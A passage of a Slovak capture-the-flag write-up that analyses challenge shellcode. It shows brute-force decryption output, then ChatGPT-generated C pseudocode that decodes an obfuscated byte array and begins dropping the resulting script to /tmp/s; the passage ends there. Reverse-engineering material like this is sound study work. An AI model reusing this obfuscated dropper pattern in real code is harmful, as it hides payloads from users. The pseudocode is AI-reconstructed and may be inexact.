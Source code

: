 Výstup

```c
majino@majino:/mnt/e/CTFs/Cybergame2025/Greg$ ./decrypt_bruteforce
Decryption failed: 2.31_deciphered.bin
Decryption failed: 2.32_deciphered.bin
Decryption failed: 2.33_deciphered.bin
Decryption failed: 2.34_deciphered.bin
Decryption failed: 2.35_deciphered.bin
Decryption failed: 2.36_deciphered.bin
Decryption failed: 2.37_deciphered.bin
Decrypted successfully: 2.38_deciphered.bin
Decryption failed: 2.39_deciphered.bin
Decryption failed: 2.40_deciphered.bin
Decryption failed: 2.41_deciphered.bin
```

Dostali sme shellcode pomocou seedu verzie 2.38 a takto vyzerá jeho pseudokód vygenerovaný pomocou ChatGPT

```c
#include <stdint.h>
#include <stddef.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

// Zašifrované dáta
unsigned char data[] = {
    0xF0, 0xCE, 0xCB, 0xC9, 0xBD, 0xF5, 0xC1, 0xC1, 0xCD, 0x83, 0x8C, 0x8C, 0xFF, 0xF2, 0xC9, 0xFE,
    0xC0, 0xB7, 0xF0, 0xC2, 0xFB, 0xFE, 0xCB, 0xF4, 0xFA, 0xF6, 0xFE, 0xB7, 0xC0, 0xC8, 0x8C, 0xC0,
    0xC2, 0xC0, 0xC1, 0xFE, 0xF6, 0xCE, 0xCD, 0xF1, 0xFA, 0xC1, 0xFE, 0xB6, 0x8B, 0xFB, 0x8A, 0x84,
    0x81, 0xF1, 0x85, 0x82, 0xB6, 0x8E, 0x8F, 0x81, 0xFB, 0xB6, 0x81, 0x8D, 0x8B, 0x81, 0xB6, 0xFA,
    0xF0, 0xFB, 0x8F, 0xB6, 0xFB, 0x8A, 0x82, 0x8E, 0xFF, 0x81, 0xF0, 0x85, 0x8A, 0xFA, 0x80, 0xF0,
    0x8C, 0xC9, 0xF2, 0xFB, 0xB7, 0xC0, 0xCC, 0xB0, 0xA0, 0xA8, 0xB6, 0xD0, 0xDE, 0xAB, 0xA1, 0x18,
    0xFB, 0x8A, 0xF7, 0xFC, 0xCD, 0x81, 0xC2, 0xC9, 0x8D, 0x81, 0xF1, 0xFC, 0xF1, 0x8D, 0x80, 0x8E,
    0xFC, 0xF7, 0x8D, 0x84, 0xFC, 0xC0, 0x80, 0x80, 0xF6, 0x8E, 0xFC, 0xC9, 0x8A, 0xC8, 0x80, 0xFC,
    0xF0, 0x8D, 0xF6, 0xF6, 0x81, 0xF7, 0xF1, 0x8E, 0x06, 0xBD, 0xC7, 0xBD, 0x8C, 0xC9, 0xF2, 0xFB,
    0xFC, 0xC0, 0xFA, 0xFF, 0xFE, 0x8C, 0xC5, 0x85, 0x8F, 0xFC, 0x8F, 0x81, 0xB6, 0xC9, 0xF2, 0xF7,
    0xCE, 0xC5, 0xB6, 0xF4, 0xF7, 0xCE, 0x8C, 0xC9, 0xF2, 0xFB, 0xF0, 0xB7, 0xC0, 0xCC, 0xB7, 0x8F,
    0xBD
};

void shellcode(void) {
    // 1) Nastavíme pointer na zašifrované dáta
    uint8_t *enc = data;
    size_t len = sizeof(data) / sizeof(data[0]);  // 0xB1 = 177

    // 2) Dekódovanie šifrovaných dát
    for (size_t i = 0; i < len; i++) {
        uint8_t c = enc[i];
        c ^= 0x68;   // xor 0x68
        c += 0x32;   // add 0x32
        c ^= 0xE2;   // xor 0xE2
        c -= 0xC5;   // sub 0xC5
        enc[i] = c;
    }
    // Pridáme nulový terminátor za dekódované dáta
    // (v pôvodnom shellcode sa na to využíval jeden bajt 0x00)
    // Pozor: data musí mať miesto +1 pre '\0' alebo použiť externé bufferovanie.

    // 3) Zápis dekódovaného skriptu do súboru /tmp/s
    const char *path = "/tmp/s";
```